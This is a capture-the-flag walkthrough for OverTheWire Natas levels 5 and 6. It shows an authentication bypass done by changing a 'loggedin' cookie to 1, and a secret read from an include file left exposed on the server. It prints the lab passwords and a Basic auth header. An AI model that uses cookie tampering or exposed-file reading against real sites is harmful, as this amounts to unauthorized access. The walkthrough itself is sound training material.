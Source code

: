 ## Level 5

```
Access disallowed. You are not logged in
```
Inspecting the request gives
```
GET / HTTP/1.1
Host: natas5.natas.labs.overthewire.org
Cache-Control: max-age=0
Authorization: Basic bmF0YXM1OmlYNklPZm1wTjdBWU9RR1B3dG4zZlhwYmFKVkpjSGZx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
DNT: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: __cfduid=da1bde76a1d5e9a74ef93e15934e7856a1525237844; loggedin=0
Connection: close
```
Let's set `loggedin=1`
```
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```

## Level 6
Level 6 has a form asking for a secret. Let's inspect the source
```
<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
```
Checking out includes/secret.inc gives us
```
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```
Entering the secret gives us
```
Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```

